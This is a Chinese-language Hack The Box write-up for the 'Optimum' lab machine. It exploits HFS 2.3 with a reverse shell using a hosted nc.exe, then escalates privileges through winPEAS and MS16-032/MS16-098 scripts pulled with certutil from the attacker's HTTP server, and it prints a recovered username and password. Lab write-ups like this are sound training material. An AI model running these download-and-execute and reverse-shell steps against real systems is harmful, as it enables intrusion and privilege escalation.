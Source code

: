 # Optimum
- URL : https://app.hackthebox.eu/machines/6
- IP : 10.129.209.84

## Information Gathering
- 掃 Port
	- ![](https://i.imgur.com/UWeIeq2.png)
- 觀察 80 port
	- ![](https://i.imgur.com/vSG54Vi.png)
	- HFS 2.3

## 尋找 Exploit
- 找到
	- https://www.exploit-db.com/exploits/39161
	- 需要準備 nc
		- `wget https://github.com/int0x33/nc.exe/raw/master/nc.exe`
- 依照需求開 http server
	- `python3 -m http.server 80`
	- 放 nc
- 執行腳本
	- ![](https://i.imgur.com/Tkxg89o.png)
- 收到 Reverse shell
	- ![](https://i.imgur.com/zBLykaz.png)
- 取得 User flag
	- ![](https://i.imgur.com/842n5hz.png)

## 提權
- `systeminfo`
	- ![](https://i.imgur.com/KiIGzft.png)
- 載豌豆
	- `certutil -urlcache -f http://10.10.16.35:8000/winPEASx64.exe winpeas.exe`
	- ![](https://i.imgur.com/QOVBLpk.png)
- 執行豌豆
	- ![](https://i.imgur.com/PjUZ8cP.png)
	- ![](https://i.imgur.com/dUHgWW1.png)
	- 看到帳密
		- `kostas`
		- `kdeEjDowkS*`
- 使用 Windows-Exploit-Suggester
	- https://github.com/AonCyberLabs/Windows-Exploit-Suggester
	- 需要先裝指定版本的 xlrd
		- `pip install xlrd==1.2.0`
	- `./windows-exploit-suggester.py --update`
	- ![](https://i.imgur.com/GwV0ET6.png)
		- 尋找推薦的 Exploit　腳本
- 嘗試 MS16-032
	- `wget https://www.exploit-db.com/download/39719 -O Invoke-MS16-032.ps1`
	- ![](https://i.imgur.com/RVDEYto.png)
	- 載腳本
		- `certutil -urlcache -f http://10.10.16.35/Invoke-MS16-032.ps1 Invoke-MS16-032.ps1`
	- 失敗
		- https://evi1cg.me/archives/MS16-032-Windows-Privilege-Escalation.html
		- 看起來因為他是給 GUI 用的，需要彈出額外視窗
- 嘗試 MS16-098
	- https://github.com/sensepost/ms16-098
	- 載下來執行
		- ![](https://i.imgur.com/f9wRh6B.png)
		- 成功
	- 取得 System Flag
		- ![](https://i.imgur.com/OMCDFZi.png)

